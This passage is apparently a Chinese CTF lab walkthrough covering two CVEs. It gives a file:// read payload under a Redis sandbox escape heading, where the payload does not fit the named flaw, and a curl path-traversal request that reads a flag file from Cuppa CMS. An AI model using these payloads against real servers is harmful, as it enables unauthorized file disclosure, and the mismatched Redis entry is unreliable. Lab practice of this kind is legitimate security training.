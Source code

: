 ![image-20230712112910516](%E9%9D%B6%E5%9C%BA.assets/image-20230712112910516.png)





## CVE-2022-0543 Redis 沙盒逃逸漏洞

*靶标介绍：*

Redis 存在代码注入漏洞，攻击者可利用该漏洞远程执行代码

/?url=file:///flag

![image-20230712143748361](%E9%9D%B6%E5%9C%BA.assets/image-20230712143748361.png)



## CVE-2022-25401 Cuppa CMS v1.0 任意文件读

*靶标介绍：*

Cuppa CMS v1.0 administrator/templates/default/html/windows/right.php文件存在任意文件读取漏洞

```csharp
curl -X POST "http://xxx.ichunqiu.com/templates/default/html/windows/right.php" -d "url=../../../../../../../../../../../../flag"
```
